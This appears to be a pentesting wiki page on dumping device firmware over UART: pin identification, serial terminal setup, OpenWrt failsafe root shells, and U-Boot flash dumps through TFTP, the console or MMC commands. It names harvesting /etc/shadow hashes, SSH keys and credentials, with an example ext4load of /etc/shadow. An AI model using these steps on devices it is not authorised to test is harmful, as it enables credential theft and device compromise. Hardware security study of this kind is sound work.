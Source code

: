 # Extract Firmware using UART

After connecting to a UART connector on a PCB we can try to extract firmware over it.

### Steps to Extract Firmware Over UART

#### 1. **Identify UART Pins**

* Locate the UART pins (TX, RX, GND, and possibly VCC) on the target device. The device’s documentation or datasheet may provide this information.
* Typically, the pins are labeled as follows:
  * **TX** (Transmit) \[fluctuate Voltage, when data is transmitted]
  * **RX** (Receive) \[may look like VCC pin, when not connected: 3.3V]
  * **GND** (Ground) \[0V]
  * **VCC** (Power, optional) \[common to have: 3.3V or 5V]

#### 2. **Connect the UART Adapter**

* You need an **USB-to-UART Adapter**: FTDI FT232, CP2102, CH340, etc.
* Use jumper wires to connect the UART adapter to the target device as follows:
  * **TX (Adapter) → RX (Device)**
  * **RX (Adapter) → TX (Device)**
  * **GND (Adapter) → GND (Device)**
  * **VCC (Optional, Adapter) → VCC (Device)** (if powering the device through the adapter)

#### 3. **Configure Serial Terminal**

* Open your serial terminal software and configure the following settings:
  * **Baud Rate**: Common values are 9600, 115200, or as specified in the device’s documentation (picocom also has a feature to adjust the baud rate on the fly (check docs)).
  * **Data Bits**: 8
  * **Parity**: None
  * **Stop Bits**: 1
  * **Flow Control**: None

{% tabs %}
{% tab title="Linux" %}
```bash
sudo minicom -D /dev/ttyUSB0 -b 115200
sudo picocom -b 115200 -r -l /dev/ttyUSB0
```
{% endtab %}

{% tab title="Windows" %}
**Using PuTTY (Windows)**:

* Select “Serial” and enter the COM port (e.g., COM3) and baud rate (115200).
{% endtab %}
{% endtabs %}

#### 4. **Establish Connection**

* Open the connection in the serial terminal software. Depending on the device and its bootloader, there are many different options how the UART is implemented. It is a good sign if you see a terminal interface that may display boot messages or a command prompt from the target device.
*   If you see something like this: you may adjust the baud rate as it is probably wrong

    <figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption><p>False baud rate</p></figcaption></figure>
*   If you see a boot log:

    * Restart the device again and capture the full bootlog, as it can contain important information
    * The MTD partition for example can tell us where the root filesystem is stored

    <figure><img src="../../../.gitbook/assets/image (70).png" alt="" width="341"><figcaption><p>MTD partitions created</p></figcaption></figure>

#### Not all UART interfaces are the same. Infect manufacturers could output actually anything over it. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F`  will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):&#x20;
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:&#x20;
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically: https://github.com/nmatt0/firmwaretools
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "Analyze Firmware" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
